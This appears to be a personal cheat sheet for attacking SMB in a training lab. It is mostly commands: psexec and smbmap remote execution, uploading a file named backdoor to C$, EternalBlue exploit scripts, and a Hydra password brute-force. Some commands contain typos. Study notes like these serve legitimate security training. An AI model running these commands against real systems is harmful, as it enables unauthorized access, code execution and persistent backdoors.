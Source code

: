 ```yaml
---
title: 'SMB (Server Message Block)'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'smb']
---
```


## Information

- It's a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- Uses port 445(TCP). SMB ran on top of NetBIOS using port 139.

- Samba is an open source Linux implementation of SMB, and alllows Windows systems to access Linux shres and devices

## Exploit

knowing creds.

```bash
psexec.py Administrator@target cmd.exe
```

### Windows Discover and mount

How to mount in powershell:

```bash
# Clear the stored session
net use * /delete

# Mount the target folder
net use Z: \\10.4.17.133\C$ smbserver_771 /user:administrator
```

### SMB Windows Recon: Nmap scripts

```bash
$nmap target
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
445/tcp   open    microsoft-ds

# list the supported protocols and dialects of an SMB server
$nmap -p445 --script smb-protocols target
...

# information about the SMB security level.
$nmap -p445 --script smb-security-mode target
...(but defult usually makes good )
... acc

# with creds discover sensitive information
$nmap -p445 --script smb-enum-sessions target
...

# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information

$nmap -p445 --script smb-enum-sessions --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap -p445 --script smb-enum-sessions target --script-args smbusername=administrator,smbpassword=smbserver_771 target
...

$nmap -p445 --script smb-enum-shares target
...

$nmap -p445 --script smb-enum-shares target --script-args
...smbusername=administrator,smbpassword=smbserver_771 target


```

### smbmap Recon

```bash
# NULL SESSION - user, pass, directory, host
smbmap -u guest -p "" -d . -H target

# Remote code execution :D!
smbmap -u administrato -p "" -d . -H target -x 'ipconfig'

smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -L

# connect to C drive
smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -r 'C$'

# upload file
smbmap -u Administrator -p "smbserver_771" -H target -d --upload '/root/payload' 'C$\backdoor'

# download file
smbmap -u Administrator -p "smbserver_771" -H target --download 'C$\flag.txt'

```

### SMBClient - ftp-like client to access SMB/CIFS resources on servers.

Windows 7 y smb puede ser un Eternalblue.

-> AutoBlue-Ms17-010

1: eternal_checker.py target
2: python2.7 zzz_exploit.py target

```bash
$nmbloopup -A taget

$rpcclient -U "" -N target

# If we see IPC$ maybe null session works
$smbclient -L target -N

...-h
...enumerate

######################################
# Despues de montar podemos ver en ls -lsa /media/k_share
sudo mount.cifs //target/c /media/k_share user=,pass=

# Dictionary attack

hydra -l admin -P /usr/share/wordlist/rockyou.txt target smb

#if discover pass
smbmap -H target -u admin -p password1

# pivot
$smbclient -L target -U jane
or
$smbclient //target/jane -U jane

#other way to find users:
$enum4linux -r -u "admin" -p "password1" target

```

